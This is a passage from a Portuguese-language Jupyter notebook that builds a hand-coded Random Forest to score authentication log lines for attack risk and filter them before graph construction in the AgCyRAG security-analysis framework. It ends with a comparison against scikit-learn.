plt.tight_layout(); plt.show()

## 6. O filtro: escolhendo o limiar
O limiar do score define o compromisso: limiar baixo mantém mais ataques (recall alto) mas filtra menos; limiar alto filtra mais e arrisca descartar evidência.
Escolhemos o limiar **usando só o treino (OOB)**: o maior limiar que ainda mantém pelo menos 98% das linhas de ataque. Depois medimos no teste.



Limiar 0.72 no teste -> recall 95.5% | precisão 99.8% | redução de volume 88.1% | linhas de ataque perdidas: 30


In [11]:
limiares = np.round(np.arange(0.02, 1.0, 0.02), 2)
META_RECALL = 0.98
rec_oob = [metricas(y_tr[oob_ok], (floresta.oob_proba[oob_ok] >= l).astype(int))["recall"] for l in limiares]
candidatos = [l for l, r in zip(limiares, rec_oob) if r >= META_RECALL]
LIMIAR = max(candidatos) if candidatos else float(limiares[0])

curva = [metricas(y_te, (score_te >= l).astype(int)) for l in limiares]
fig, ax = plt.subplots(figsize=(7.5, 4))
ax.plot(limiares, [c["recall"] for c in curva], color=AZUL, lw=2, label="Recall (ataques mantidos)")
ax.plot(limiares, [c["reducao_volume"] for c in curva], color=LARANJA, lw=2, label="Redução de volume")
ax.axvline(LIMIAR, color=CINZA, ls="--", lw=1)
ax.text(LIMIAR + 0.01, 0.05, f"limiar escolhido = {LIMIAR:.2f}", color=CINZA, fontsize=9)
ax.set_ylim(0, 1.03); ax.set_xlabel("limiar do score de risco"); ax.set_ylabel("proporção")
ax.yaxis.set_major_formatter(lambda v, _: f"{v:.0%}")
ax.set_title("Compromisso do filtro no conjunto de teste", loc="left", fontsize=11)
ax.legend(frameon=False, loc="center right"); plt.tight_layout(); plt.show()

m_final = metricas(y_te, (score_te >= LIMIAR).astype(int))
print(f"Limiar {LIMIAR:.2f} no teste -> recall {m_final['recall']:.1%} | precisão {m_final['precisao']:.1%} | "
      f"redução de volume {m_final['reducao_volume']:.1%} | linhas de ataque perdidas: {m_final['FN']}")

### Filtro com contexto
Descartar tudo que tem score baixo tem um risco: o AgCyRAG precisa de **contexto** para raciocinar. No caso de uso do artigo, o padrão suspeito é "falhas repetidas **seguidas de um login bem-sucedido**", e o login em si pode parecer normal.
Por isso o filtro final mantém também as linhas do **mesmo usuário ou IP até 2 minutos antes ou depois** de uma linha suspeita. E o score é gravado junto com a linha, para virar uma propriedade (`risk_score`) do nó no grafo.

In [12]:
regs_te = [r for r, t in zip(registros, teste) if t]
suspeita = score_te >= LIMIAR

def expandir_contexto(regs, marcado, janela=120):
    seg = np.array([(r["ts"] - regs[0]["ts"]).total_seconds() for r in regs])
    manter = marcado.copy()
    por_chave = defaultdict(list)
    for i in np.where(marcado)[0]:
        for chave in (regs[i]["ip"], regs[i]["user"]):
            if chave and chave != "root":
                por_chave[chave].append(seg[i])
    for i, r in enumerate(regs):
        if manter[i] or r["proc"] == "CRON":
            continue
        for chave in (r["ip"], r["user"]):
            ts = por_chave.get(chave)
            if ts:
                j = bisect.bisect_left(ts, seg[i] - janela)
                if j < len(ts) and ts[j] <= seg[i] + janela:
                    manter[i] = True; break
    return manter

mantidas = expandir_contexto(regs_te, suspeita)
m_ctx = metricas(y_te, mantidas.astype(int))
print(f"{'':28s} {'linhas mantidas':>16s} {'redução':>9s} {'recall':>8s} {'ataques perdidos':>17s}")
print(f"{'Sem filtro':28s} {len(y_te):16d} {0:9.1%} {1:8.1%} {0:17d}")
print(f"{'Filtro por score':28s} {suspeita.sum():16d} {m_final['reducao_volume']:9.1%} {m_final['recall']:8.1%} {m_final['FN']:17d}")
print(f"{'Filtro por score + contexto':28s} {mantidas.sum():16d} {m_ctx['reducao_volume']:9.1%} {m_ctx['recall']:8.1%} {m_ctx['FN']:17d}")

with open("auth_filtrado.jsonl", "w") as f:
    for r, s, k in zip(regs_te, score_te, mantidas):
        if k:
            f.write(json.dumps({"risk_score": round(float(s), 3), "log": r["bruto"]}) + "\n")
print("\nArquivo auth_filtrado.jsonl gerado: é ele que seguiria para a construção do grafo no AgCyRAG.")

                              linhas mantidas   redução   recall  ataques perdidos
Sem filtro                               5383      0.0%   100.0%                 0
Filtro por score                          638     88.1%    95.5%                30
Filtro por score + contexto               681     87.3%    99.6%                 3

Arquivo auth_filtrado.jsonl gerado: é ele que seguiria para a construção do grafo no AgCyRAG.


### Caso de uso do artigo: usuário Daryl
O que o filtro deixa passar sobre o `daryl` na janela do incidente de 29/02 (o mesmo cenário do caso de uso iii do artigo).

In [13]:
ini, fim = datetime(2024, 2, 29, 15, 30), datetime(2024, 2, 29, 15, 50)
print(f"{'score':>5s}  {'vai p/ base':11s} {'real':7s} linha")
for r, s, k, yy in zip(regs_te, score_te, mantidas, y_te):
    if r["user"] == "daryl" and ini <= r["ts"] <= fim:
        print(f"{s:5.2f}  {'sim' if k else 'NÃO':11s} {'ataque' if yy else 'normal':7s} {r['bruto'][:105]}")

score  vai p/ base real    linha
 0.00  sim         normal  Feb 29 15:37:15 mail-0 dovecot: imap-login: Login: user=<daryl>, method=PLAIN, rip=10.0.0.10, lip=10.0.0.
 0.90  sim         ataque  Feb 29 15:38:42 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.83  sim         ataque  Feb 29 15:38:46 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.66  sim         ataque  Feb 29 15:38:54 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.74  sim         ataque  Feb 29 15:39:01 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.71  sim         ataque  Feb 29 15:39:08 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.74  sim         ataque  Feb 29 15:39:14 mail-0 auth: pam_unix(dovecot:auth): authentication failure; logname= uid=0 euid=0 tty=do
 0.75  sim         ataque  Feb 29 15

## 7. Conclusão e próximos passos

**O que o MVP mostra**
- Random Forest implementado sem biblioteca de ML (CART com Gini, bootstrap, sorteio de features, votação por média, OOB e importância de features).
- Pipeline completo: log bruto -> parser -> features de contexto -> score de risco -> arquivo filtrado.
- O filtro reduz bastante o volume que iria para o LLM mantendo quase todas as linhas de ataque. Os números exatos estão nas saídas acima.

**Limitações (para sermos honestos na apresentação)**
1. **Dados sintéticos gerados por nós.** O modelo reaprende em parte as regras do gerador, então os números são otimistas. O valor do MVP é provar o pipeline, não a taxa de acerto.
2. **Ataques lentos** (*password spraying*) são os mais difíceis, porque cada linha isolada parece normal. Ver a tabela de recall por tipo.
3. **Filtrar é irreversível.** Um falso negativo some da base e o agente nunca mais o encontra. Por isso propomos usar o score como **prioridade/propriedade no grafo** e manter o log bruto completo em armazenamento barato, em vez de apagar.
4. O modelo é supervisionado: depende de logs rotulados, que em produção são raros.

**Próximos passos**
- Validar com o **AIT Log Data Set v2** (o mesmo do artigo), que traz rótulos por linha. Basta apontar a célula de leitura (seção 2) para um `auth.log` do AIT e seu arquivo de rótulos.
- Integrar a saída (`auth_filtrado.jsonl`) à ingestão do AgCyRAG e medir custo de construção do grafo e qualidade das respostas com e sem filtro.

**Referências**
1. KURNIAWAN, K.; ARDIAN, R. F.; KIESLING, E.; EKELHART, A. AgCyRAG: an Agentic Knowledge Graph based RAG Framework for Automated Security Analysis. RAGE-KG 2025, ISWC 2025, Nara, Japão.
2. BREIMAN, L. Random Forests. *Machine Learning*, v. 45, p. 5–32, 2001.
3. LANDAUER, M. et al. Maintainable Log Datasets for Evaluation of Intrusion Detection Systems. *IEEE Transactions on Dependable and Secure Computing*, 2023 (arXiv:2203.08580). Base: AIT Log Data Set V2.0, Zenodo.

## Apêndice: conferência com o scikit-learn

**Esta seção não faz parte do algoritmo.** Tudo acima roda sem scikit-learn. Aqui usamos a biblioteca apenas como gabarito: treinamos o modelo dela com **os mesmos dados e os mesmos parâmetros** e comparamos com o nosso.

Fazemos duas comparações:
1. **Árvore única, sem sorteio de features.** Sem aleatoriedade, as duas implementações deveriam chegar praticamente à mesma árvore. É o teste mais rigoroso.
2. **Floresta.** Cada implementação sorteia amostras e features de um jeito, então as árvores não são iguais. O esperado é que as **métricas** e as **notas de risco** sejam muito próximas, não idênticas.

In [14]:
from sklearn.tree import DecisionTreeClassifier
from sklearn.ensemble import RandomForestClassifier

PARAMS_SK = dict(criterion="gini", max_depth=12, min_samples_split=10, min_samples_leaf=3)

# 1) árvore única
arv_sk = DecisionTreeClassifier(random_state=0, **PARAMS_SK).fit(X_tr, y_tr)
p_nossa, p_sk = arvore_unica.predict_proba(X_te), arv_sk.predict_proba(X_te)[:, 1]
print("ÁRVORE ÚNICA")
print(f"  nós na árvore: nossa = {len(arvore_unica.valor)} | scikit-learn = {arv_sk.tree_.node_count}")
print(f"  mesma decisão em {((p_nossa >= 0.5) == (p_sk >= 0.5)).mean():.2%} das {len(y_te)} linhas de teste")

# 2) floresta
rf_sk = RandomForestClassifier(n_estimators=40, max_features="sqrt", bootstrap=True, random_state=SEMENTE, **PARAMS_SK).fit(X_tr, y_tr)
score_sk = rf_sk.predict_proba(X_te)[:, 1]
print("\nFLORESTA (40 árvores)")
print(f"  {'':22s} {'precisão':>9s} {'recall':>8s} {'F1':>7s}")
for nome, sc in (("Nossa implementação", score_te), ("scikit-learn", score_sk)):
    mm = metricas(y_te, (sc >= 0.5).astype(int))
    print(f"  {nome:22s} {mm['precisao']:9.1%} {mm['recall']:8.1%} {mm['f1']:7.1%}")
print(f"  mesma decisão em {((score_te >= 0.5) == (score_sk >= 0.5)).mean():.2%} das linhas de teste")
print(f"  correlação entre as notas de risco: {np.corrcoef(score_te, score_sk)[0, 1]:.4f}")
print(f"  diferença média absoluta entre as notas: {np.abs(score_te - score_sk).mean():.4f}")

top = lambda imp: [NOMES[i] for i in np.argsort(imp)[::-1][:5]]
print("\n  5 features mais importantes")
print("   nossa       :", ", ".join(top(floresta.importancia)))
print("   scikit-learn:", ", ".join(top(rf_sk.feature_importances_)))

ÁRVORE ÚNICA
  nós na árvore: nossa = 51 | scikit-learn = 51
  mesma decisão em 99.98% das 5383 linhas de teste

FLORESTA (40 árvores)
                          precisão   recall      F1
  Nossa implementação        98.5%    98.4%   98.4%
  scikit-learn               99.4%    98.5%   98.9%
  mesma decisão em 99.87% das linhas de teste
  correlação entre as notas de risco: 0.9981
  diferença média absoluta entre as notas: 0.0051

  5 features mais importantes
   nossa       : falhas_ip_60min, falhas_ip_10min, falhas_ip_1min, eh_falha, ip_externo
   scikit-learn: falhas_ip_60min, falhas_ip_10min, eh_falha, falhas_ip_1min, falhas_usuario_60min




In [15]:
fig, ax = plt.subplots(figsize=(4.8, 4.8))
ax.plot([0, 1], [0, 1], color=CINZA, lw=1, ls="--", label="notas idênticas")
ax.scatter(score_sk, score_te, s=10, color=AZUL, alpha=0.35, linewidths=0, label="linha de log do teste")
ax.set_xlabel("nota de risco do scikit-learn"); ax.set_ylabel("nota de risco da nossa floresta")
ax.set_title("Nossa floresta x scikit-learn", loc="left", fontsize=11)
ax.set_aspect("equal"); ax.legend(frameon=False, loc="upper left", fontsize=8)
plt.tight_layout(); plt.show()

**Leitura do resultado.** Se a nossa implementação tivesse um erro de lógica (no cálculo do Gini, no bootstrap ou na votação), as métricas e as notas divergiriam das do scikit-learn. Como ficam praticamente iguais, concluímos que o algoritmo escrito à mão se comporta como a implementação de referência.

**O que essa comparação não prova:** que o modelo é bom para logs reais. Ela valida o *algoritmo*; a qualidade dos *dados* continua sendo a limitação descrita na seção 7.